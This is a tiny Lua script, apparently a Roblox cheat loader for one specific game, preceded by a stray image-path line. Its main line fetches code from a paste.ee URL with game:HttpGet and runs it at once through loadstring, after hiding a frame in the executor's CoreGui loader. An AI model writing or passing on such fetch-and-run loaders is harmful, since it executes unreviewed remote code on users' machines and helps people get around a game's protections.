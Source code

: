 if game.PlaceId == 10772052398 then
    game.CoreGui.loader123.Frame.keepthis.BackgroundTransparency = 1
    wait(1)
    loadstring(game:HttpGet(('https://paste.ee/r/BZFqA'),true))()

    

end
